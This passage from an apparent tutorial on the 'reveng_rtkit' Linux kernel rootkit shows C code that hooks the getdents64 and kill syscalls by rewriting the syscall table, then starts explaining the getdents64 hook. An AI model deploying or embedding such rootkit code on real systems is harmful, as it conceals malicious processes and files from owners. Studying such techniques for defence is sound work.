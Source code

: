                       // Storing original syscall
                      orig_getdents64 = (tt_syscall)__sys_call_table[__NR_getdents64];
                      orig_kill = (tt_syscall)__sys_call_table[__NR_kill];

                      //printk(KERN_EMERG "The value of cr0: %lx\n",cr0);

                      unprotect_memory();

                      // Editing syscall table targeting "getdents64" and "kill" syscall with our created "hacked_getdents64" and "hacked_kill".
                      __sys_call_table[__NR_getdents64] = (unsigned long) hacked_getdents64;
                      __sys_call_table[__NR_kill] = (unsigned long) hacked_kill;

                      //printk(KERN_EMERG "The value of cr0: %lx\n",cr0);

                      protect_memory();

                      return 0;

                    }

                    // ========================== Exit Function ====================

                    static void __exit rootkit_exit(void)
                    {
                      printk(KERN_INFO "\n=========================================\n");

                      unprotect_memory();
                      printk(KERN_INFO "\t\t\t\t\t\t back to normal");

                      // Editing the sycall table back to normal, i.e. with original syscalls: "getdents64" and "kill" syscalls.
                      __sys_call_table[__NR_getdents64] = (unsigned long) orig_getdents64;
                      __sys_call_table[__NR_kill] = (unsigned long) orig_kill;

                      protect_memory();

                      printk(KERN_INFO "[-] reveng_rtkit: Unloaded \n");
                      printk(KERN_INFO "=================================================\n");
                    }

                    module_init(rootkit_init);
                    module_exit(rootkit_exit);

                    MODULE_LICENSE("GPL");
                    MODULE_AUTHOR("reveng007");
                    MODULE_DESCRIPTION("Modifying Stage of reveng_rtkit");
                    MODULE_VERSION("1.0");
                   ```
                   This code is same as before (the kill syscall portion), just `__NR_getdents64` is added (new), [source](https://elixir.bootlin.com/linux/v5.11/source/arch/arm64/include/asm/unistd32.h#L447).

                   Let us go step by step from `Test_hook_getdents64.h` file:
                   ```c
                   // Test_hook_getdents64.h

                   #include <linux/slab.h>         /* kmalloc(), kfree(), kzalloc() */
                   #include <linux/fdtable.h>      /* Open file table structure: files_struct structure */
                   #include <linux/proc_ns.h>      /* For `PROC_ROOT_INO` */
